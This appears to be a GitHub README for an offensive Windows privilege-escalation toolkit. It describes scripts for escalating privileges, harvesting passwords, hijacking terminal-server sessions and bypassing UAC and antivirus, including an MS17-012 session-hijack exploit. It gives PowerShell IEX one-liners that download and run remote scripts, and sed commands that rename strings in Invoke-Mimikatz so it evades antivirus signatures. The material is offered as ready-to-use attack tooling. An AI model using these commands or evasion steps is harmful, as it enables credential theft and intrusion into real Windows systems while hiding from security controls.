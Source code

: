 # WinEscalation-

Scan.ps1:
Powershell script used to determine what methods can be used to escalate privileges and find passwords (admin and non-admin privs).


AVbypass.txt:
List of URLs discussing different methods of bypassing AV.

TScommands.txt:
Commands on how to hijack a TS session on a box (must have admin rights).

UACbypass.txt:
URLs discussing different methods of bypassing UAC.


MS17-012/CVE-2017-0100:
Start-ProcessInSession.ps1 & MS17-012.cs - non-priveleged session hijack



Author: Scott Sutherland 2013, NetSPI
Version: Get-SPN version 1.1
Requirements: Powershell v.3
Comments: The technique used to query LDAP was based on the "Get-AuditDSDisabledUserAcount" 
function found in Carols Perez's PoshSec-Mod project.#
Modded to bypass AV sig detection.
https://github.com/nullbind/Powershellery/blob/master/Stable-ish/Get-SPN/Get-SPN.psm1

Get-SPM.psm1: 

IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pand0rausa/WinEscalation-/master/Get-SPM.psm1")

Mimikitten mod to avoid AV:
mimikitt.ps1


Mimikatz mod to avoid AV:
mimi.ps1

sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1

sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1

sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1

sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1

sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions\$Win32Functions #\-/g" Invoke-Mimikatz.ps1


Powerview mod to avoid AV:
powervw.ps1


IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pand0rausa/WinEscalation-/master/WindowsScanner.ps1'); scan-windows | Out-File $home\out.txt
